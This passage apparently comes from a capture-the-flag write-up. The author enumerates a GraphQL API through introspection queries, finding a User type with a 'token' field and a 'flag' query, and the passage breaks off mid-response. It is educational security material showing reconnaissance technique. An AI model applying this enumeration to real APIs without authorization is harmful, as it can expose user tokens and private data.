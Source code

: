 ```json
                {
                    "name": "Query"
                },
                ... lots of default types
                {
                    "name": "User"
                }
            ]
        }
    }
}
```

That `Users` type looks interesting, I wonder what properties it has? I turned to [the GraphQL docs](https://graphql.org/learn/introspection/) for help.

```graphql
{
    __type(name: "User") {
        fields {
            name
        }
    }
}
```
```json
{
    "data": {
        "__type": {
            "fields": [
                {
                    "name": "token"
                },
                {
                    "name": "username"
                }
            ]
        }
    }
}
```

Ok. Now let's see what queries are supported.

```graphql
{
    __type(name: "Query") {
        fields {
            name
        }
    }
}
```
```json
{
    "data": {
        "__type": {
            "fields": [
                {
                    "name": "users"
                },
                {
                    "name": "flag"
                }
            ]
        }
```